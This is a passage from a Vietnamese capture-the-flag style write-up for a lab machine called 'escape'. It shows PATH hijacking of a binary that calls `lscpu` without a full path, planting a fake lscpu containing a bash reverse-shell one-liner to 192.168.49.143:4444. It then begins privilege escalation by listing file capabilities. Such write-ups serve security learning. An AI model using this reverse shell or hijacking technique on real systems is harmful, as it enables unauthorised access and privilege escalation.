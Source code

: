 Sử dụng `ltrace` để thực thi và theo dõi, thấy rằng tại option 6 có sử dụng câu lệnh `lscpu`:

![](https://i.imgur.com/iH3SRZL.png)

Thường thì `lscpu` sẽ nằm ở `/usr/bin/lscpu`:

```shell 
Debian-snmp@escape:/$ which lscpu
/usr/bin/lscpu
```

Nhưng thay vì gọi full path, thì `logconsole` lại chỉ gọi `lscpu`. Nếu là một người hiểu về Linux, chúng ta sẽ biết ngay phải làm gì.

Đơn thuần, có một env tên là `PATH`, là một list các thư mục, mỗi lần sử dụng 1 câu lệnh nào đó trên Linux thông qua CLI, ví dụ như `ls`, hệ thống sẽ duyệt theo thứ tự trái -> phải từng thư mục trong `PATH` để tìm file `ls` và gọi nó.

Như vậy, chỉ cần làm như sau:

- Tạo 1 file `lscpu` trong một thư mục nào đó:

   ```shell 
   Debian-snmp@escape:/$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.49.143/4444 0>&1"' > /tmp/lscpu
   Debian-snmp@escape:/$ chmod +x /tmp/lscpu
   ```

- Đưa thư mục đó vào `PATH`, ở vị trí đầu tiên:

   ```shell 
   Debian-snmp@escape:/$ echo $PATH
   /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
   Debian-snmp@escape:/$ export PATH=/tmp:$PATH
   Debian-snmp@escape:/$ echo $PATH
   /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
   ```

Và chạy lại `/usr/bin/logconsole`:

![](https://i.imgur.com/F3qi7O4.png)

Ta đã truy cập được user `tom`, tại đây có thể tạo keypair để SSH vào, giúp thao tác trên CLI được dễ hơn.

### 2. PrivEsc

Sau khi truy cập được vào `tom` và lấy được `local.txt`, ta tiến hành leo root để tìm `proof.txt`

Như đã biết, `SUID` không có tác dụng gì trong bước này, nhưng có một thứ ta có thể dùng, đó là `capabilities`

Đa số mọi người nghĩ rằng `root` là có tất cả các quyền. Không hẳn như vậy, user `root` sở hữu tất cả các `capability` mới là có tất cả các quyền

Để search binaries có `capability`:

```shell 
tom@escape:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/opt/cert/openssl =ep
```
